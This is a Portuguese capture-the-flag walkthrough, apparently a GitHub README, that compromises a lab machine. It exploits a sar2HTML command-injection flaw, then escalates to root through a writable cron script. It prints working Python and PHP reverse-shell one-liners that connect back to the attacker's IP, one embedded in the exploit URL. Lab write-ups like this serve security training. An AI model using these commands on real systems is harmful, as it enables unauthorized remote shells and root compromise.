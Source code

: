 # Capture the Flag - CTF
CTF  - Enumerando, explorando vulnerabilidade, conseguindo shell e posteriormente acesso root.
<h2>Passos seguidos para realizar essa exploração.</h2>

1. Utilizar o **Netdiscover**
2. Escanear portas usando **Nmap**
3. Enumeração da aplicação web com **Dirb**
4. "Exploitando" a vulnerabilidade com código de execução remota **(Remote Code Execution)**
5. Conseguindo shel remota com Python.
6. Explorar permissão de acesso de arquivo e conseguindo acesso root.

# Passo 1: Encontrando o IP da máquina alvo.
  
  O primeiro passo é rodar o Netdiscover para verificar os IPs na rede.
  
  ![](Imagens/Imagem1.png)
  
  Como pode-se ver, o endreço IP do alvo é: 192.168.1.24
  
  # Passo 2:
  
  Após conseguir o endereço IP alvo, o primeiro passo é escanear as ṕortas abertas e avaliar os serviços em execução.
  Vamos utilizar o **Nmap**.
  
  ![](Imagens/Imagem2.png)
  
  **_comando utilizado nmap -A 192.168.1.24_**
  
  Pode-se ver acima que a porta 80 está aberta, com o serviço http rodando. Também é possível ver algumas informações sobre o sistema alvo.
  
  # Passo 3
  
  Analisando a aplicação rodando na porta 80.

  <h1 align="center">
  <img alt="" title="Imagem3" src="Imagens/Imagem3.png" />
  </h1>
  
  Como pode ser visto na imagem acima, o serviço rodando na porta 80 é a página padrão do **apache**.
  Vamos verificar se há algum arquivo que pode ser explorado. Para isso vamos rodar a ferramenta **Dirb** e enumerar os arquivos da aplicação.
  
  
  <h1 align="center">
  <img alt="" title="Imagem4" src="Imagens/Imagem4.png" />
  </h1>
  
  **_Comando usado dirb 192.168.1.24_**
  
  Alguns arquivos foram encontrados como resultado do scan. Eciste alguns arquivos que retornadram status 200 do servidor.
  Vamos verificar o arquivo **"robots.txt"** no navegador.
  
   <h1 align="center">
  <img alt="" title="Imagem5" src="Imagens/Imagem5.png" />
  </h1>
  
  Podemos ver que há uma entrada incomum no arquivo **_robots.txt_**. Verificando o arquivo no browser:
  
  <h1 align="center">
  <img alt="" title="Imagem6" src="Imagens/Imagem6.png" />
  </h1>
  
  Como podemos ver, **"sar2HTML"** é uma ferramenta  instalada na máquina alvo, sua versão está disponível.
  
  # Passo 4
  
  Agora temos a aplicação -"sar2HTML"- e sua versão. Fazendo uma pesquisa, podemos ver que a aplicação é vulnerável e possui um exploit disponível.
    
   <h1 align="center">
  <img alt="" title="Imagem7" src="Imagens/Imagem7.png" />
  </h1>
  
  O primeiro resultado no google nos leva ao **Exploit-DB**. A ferramenta que roda no sistema possui a vulnerabilidade de execução de código remoto. Podemos ver os detalhes do exploit abaixo:
  
   <h1 align="center">
  <img alt="" title="Imagem8" src="Imagens/Imagem8.png" />
  </h1>
  
  Podemos ver os parâmetros de utilização do exploit
  
Montando a URL para utilizar no alvo:  **Exploit <<<http:192.168.1.24/sar2HTML/index.php?plot=;>>>**

Tentando ler o arquivo **_"/etc/passwd"_** através da execução do comando na URL. O resultado pode ser vist abaixo:

   <h1 align="center">
  <img alt="" title="Imagem9" src="Imagens/Imagem9.png" />
  </h1>
  
  O exploit funcionouuu e retornou o conteúdo de "/etc/passwd".
  
  # Passo 5
  
  Agora podemos executar comandos no alvo através do navegador utilizando o exploit. Como o objetivo é conseguir o acesso root, vamos conseguir um acesso um shell reverso. Existem algumas possibilidades para isso:
        1. Podemos utilizar python and perl
        2. Podemos utilizar o metasploit pra criar o arquivo de conexão reversa, fazer download dele como o comando **wget** e executá-lo.
        3. Se a máquina alvo possuir o netcat, podemos utilizá-lo para criar a conexão reversa.
       
Tentando o terceiro método primeiro, para isso basta verificar se á máquina alvo possui o netcat. Podemos rodar o comando **"nc --help"**, se o comando retornar o resultado quer dizer que o netcat está disponível.

   <h1 align="center">
  <img alt="" title="Imagem10" src="Imagens/Imagem10.png" />
  </h1>
  
  Como podemos ver acima o comando não retornou nada. Então vamos tentar o primeiro método. Para isso basta verificar se existe python ou perl instalando no sistema. Testando python primerio
  
   <h1 align="center">
  <img alt="" title="Imagem11" src="Imagens/Imagem11.png" />
  </h1>
  
  Como podemos ver na imagem, python está disponível no alvo e pode ser usado para conexão reversa. Agora é necessário executar o script de conexão reversa na máquina alvo, imagem abaixo.
  
    
   <h1 align="center">
  <img alt="" title="Imagem12" src="Imagens/Imagem12.png" />
  </h1>
  
  **URL: 192.168.1.24/sar2HTML/index.php?plot=;%20python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22192.168.1.20%22,1234));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27**
  
  
  **_Comando usado:_**
  
  1.  <<python3 -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.1.20”,4321));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);’>>
  2.  <<nc -lvp 1234>>
  
  Como se pode ver, eu coloquei o netcat para rodar na porta <<4321>> e então inserir o comando o navegador para receber a conexão reversa.
  
  
  # Passo 6
  
  Agora temos o acesso a shell, mas é uma acesso limitado. E o objectivo é conseguir acesso root. Então primeiro exectuta-se o comando para que nos dá acesso estável a shell.
  
    <h1 align="center">
  <img alt="" title="Imagem13" src="Imagens/Imagem13.png" />
  </h1>
  
  **python3 -c ‘import pty;pty.spawn(“/bin/bash”)’**
  
  E então eu quero saber a vesão do kernel linux:
  
  **uname -a**
  
  E a versão do sistema operacional
  
  **cat /etc/issue**
  
  Com essas informações em mãos pode-se pesquisar e ver o que se encontra. Procurando exploits online, nenhum pareceu atender. Entretanto, explorando o sistema por mais informações, conseguimos uma "user flag", como mostrado no print abaixo:
  
   <h1 align="center">
  <img alt="" title="Imagem14" src="Imagens/Imagem14.png" />
  </h1>
  
  **cd /home/love/Desktop**
  **cat user.txt**
   Podemos ler o arquivo user.txt.
   
 # Passo 7
 
 
 Buscando por permissões de arquivo **<<cat /etc/crontab>>**, temos um Cron que é executado como root a cada 5 minutos
  
   <h1 align="center">
  <img alt="" title="Imagem15" src="Imagens/Imagem15.png" />
  </h1>
  
  O Cron está rodando a partir de um arquivo, "finally.sh" como visto na imagem
    
   <h1 align="center">
  <img alt="" title="Imagem16" src="Imagens/Imagem16.png" />
  </h1>
  
  Mudando de diretório para **/var/www/html**  e lendos os  arquivos e suas permissões pode-se ver que com o nível de acesso atual, é possivel editar o arquivo "write.sh", que será excutado pelo Cron, que por sua vez roda como root.
  
  Agora ajustamos uam connexão reversa com php dentro do arquivo write.sh
  
  **_php -r ‘$sock=fsockopen(“192.168.1.20”,4444);exec(“/bin/sh -i<&3 >&3 2>&3”);’_**
  
  Esse comando o sistema alvo se conectará a nós (conexão reversa) na porta 4444. Como a ativade Cron estava configurada para executar a cada 5 minutos, aguardando esse tempo temos a conexão.
  
   <h1 align="center">
  <img alt="" title="Imagem17" src="Imagens/Imagem17.png" />
  </h1> 
  
  Agora que temos acesso root, podemos, objetivo deste CTF, Podemos ler a flag **cat root.txt**
  
  <h1 align="center">
  <img alt="" title="Imagem18" src="Imagens/Imagem18.png" />
  </h1>
  
  Podemos fazer qualquer coisa no sistema agora e isso completa o CTF.
  
  
  
  
 
  
  
  
  
  
  
